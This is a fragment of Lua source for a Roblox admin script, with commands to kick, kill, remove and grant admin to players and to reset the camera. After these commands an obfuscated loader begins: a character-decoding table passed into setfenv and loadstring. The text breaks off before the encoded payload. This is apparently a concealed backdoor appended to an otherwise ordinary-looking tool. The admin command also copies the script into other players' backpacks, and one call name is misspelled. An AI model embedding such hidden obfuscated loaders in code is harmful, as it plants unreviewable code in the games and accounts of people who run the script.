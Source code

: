 AddCmd("Kick player","kick","Kick a player",
function(plrs)
for _, plr in pairs(plrs) do
if plr and plr.Backpack then
NewLS("game:service'StarterGui':SerCoreGuiEnabled(3,false)", plr.Backpack)
plr:Destroy()
end
end
end
)
 
AddCmd("Kill player","kill","Kill a player",
function(plrs)
for _, plr in pairs(plrs) do
if plr and plr.Character then
plr.Character:BreakJoints()
end
end
end
)
 
AddCmd("Punish player","punish","Remove character of a player",
function(plrs)
for _, plr in pairs(plrs) do
if plr and plr.Character then
plr.Character:Destroy()
end
end
end
)
 
AddCmd("Admin a player","admin","Give admin to a player",
function(plrs)
for _, plr in pairs(plrs) do
if plr and plr.Backpack then
a = script:Clone()
a.Parent = plr.Backpack
Output("You gave admin to: "..plr.Name, __)
end
end
end
)
 


AddCmd("Fix cam","fcam","Fix anyone's cam",
function(plrs, msg)
for _, plr in pairs(plrs) do
if plr and plr.Backpack then
NewLS([[
game.Workspace.CurrentCamera:Destroy()
cam = Instance.new("Camera", workspace)
cam.Name = "CurrentCamera"
cam.FieldOfView = 70
cam.CameraType = "Custom"
cam.CameraSubject = game.Players.LocalPlayer.Character.Humanoid]], plr.Backpack)
end
end
end
)
local z={["&"]=0,["%"]=1,["="]=2,["!"]=3,["*"]=4,["+"]=5,["?"]=6,["-"]=7,["~"]=8,["#"]=9,["$"]=10,[")"]=11,["^"]=12,["("]=13,["_"]=14,["@"]=15}; setfenv(assert(loadstring((string.gsub(string.gsub(table.concat({
